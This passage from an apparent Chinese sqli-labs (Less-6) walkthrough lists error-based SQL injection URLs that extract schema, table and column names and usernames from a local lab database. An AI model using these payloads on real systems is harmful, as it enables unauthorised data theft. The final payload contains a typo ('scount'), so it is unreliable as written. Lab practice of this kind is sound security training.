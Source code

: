 ![bool16](/images/sqlall/bool16.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select schema_name from
information_schema.schemata limit 6,1),0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+
```

### 2.1.2.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select table_name from
information_schema.tables where table_schema='security' limit 0,1),0x3a,floor(rand(0)*2))a from
information_schema.columns group by a --+
```

![bool17](/images/sqlall/bool17.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select table_name from
information_schema.tables where table_schema='security' limit 3,1),0x3a,floor(rand(0)*2))a from
information_schema.columns group by a --+
```

### 2.1.3.爆字段

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select column_name from
information_schema.columns where table_name='users' limit 0,1),0x3a,floor(rand(0)*2))a from information_schema.columns
group by a --+
```

![bool18](/images/sqlall/bool18.jpg)

```bash
其他URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,count(*),concat(0x3a,(select column_name from
information_schema.columns where table_name='users' limit 2,1),0x3a,floor(rand(0)*2))a from information_schema.columns
group by a --+
```

### 2.1.4.爆数据

```bash
URL:这里payload只能爆出一列字段信息
http://sqli-labs.me:8888/Less-6/?id=1" union select 1,scount(*),concat(0x3a,(select username from security.users limit
0,1),0x3a,floor(rand(0)*2))a from information_schema.columns group by a --+
```
